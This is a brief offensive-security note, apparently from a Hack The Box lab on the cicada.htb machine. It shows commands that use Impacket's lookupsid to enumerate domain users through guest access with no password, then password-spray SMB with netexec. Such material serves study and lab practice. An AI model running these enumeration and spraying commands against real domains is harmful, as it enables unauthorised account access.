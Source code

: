 ## lookupsid.py 
https://github.com/fortra/impacket/blob/master/examples/lookupsid.py

This tool will try brute forcing Windows Security Identifiers (SIDs) of any users in the AD domain.

To enumerate the domain, we will specify the `guest` user, the domain name, and `-no-pass` for no password. 
```
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
impacket-lookupsid support@cicada.htb -no-pass
```
In this scenario we want to perform password spraying with a known password.
1. Gett all usernames
2. Try the password against all of them
```
impacket-lookupsid support@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt

cat users.txt

netexec smb cicada.htb -u users.txt -p '<password>'
```
